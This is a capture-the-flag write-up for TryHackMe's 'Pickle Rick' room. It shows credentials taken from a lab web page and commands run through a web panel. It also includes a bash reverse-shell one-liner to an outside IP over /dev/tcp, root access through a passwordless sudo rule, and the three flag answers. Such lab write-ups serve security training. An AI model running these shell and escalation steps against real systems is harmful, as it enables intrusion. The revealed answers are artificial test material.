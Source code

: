 ```yaml
---
title: "Pickle Rick CTF - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```


[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

<div className="Image__Medium">
  <img src="https://imgur.com/rM9j9mn.png" alt="blog_image" />
</div>

```bash
Note to self, remember username!

Username: R1ckRul3s
```

<div className="Image__Medium">
  <img src="https://imgur.com/lUU7tXN.png" alt="blog_image" />
</div>

```bash
Maybe a password ?
Wubbalubbadubdub
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtHHGaE.png" alt="blog_image" />
</div>

```bash
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

<div className="Image__Medium">
  <img src="https://imgur.com/1vWZUA9.png" alt="blog_image" />
</div>

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/J5cZERN.png" alt="blog_image" />
</div>

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```bash
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```bash
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```bash
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```


